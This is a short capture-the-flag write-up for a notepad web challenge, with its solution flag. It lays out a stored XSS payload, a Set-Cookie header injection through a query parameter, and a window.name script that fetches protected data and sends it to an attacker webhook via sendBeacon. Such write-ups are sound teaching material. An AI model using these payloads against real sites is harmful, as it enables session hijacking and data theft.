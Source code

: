 # Notepad 1 - Snakehole's Secret

### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.  


### Challenge File
[Source](./Handout/snakeholesecret.zip)

### MD5 Hash: 
`fc10f1d03e258b1e697a826541e5b2a1`


### Short Writeup

* Payload in user's note
    * `<img src/onerror="eval(window.name)">`

* Send a page to admin that does the following
    * Set-Cookie with your id.
        * `http://chall.notepad1.gq/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get`
    * Open the page again with the following window.name . Now that your XSS payload gets loaded, remove your cookie and fetch flag.
        * `window.open("http://chall.notepad1.gq",name="document.cookie='id=f616c83f2f0f188265c7004d81d45723; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));")`

### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{youll_never_take_me_alive_ialmvwoawpwe}`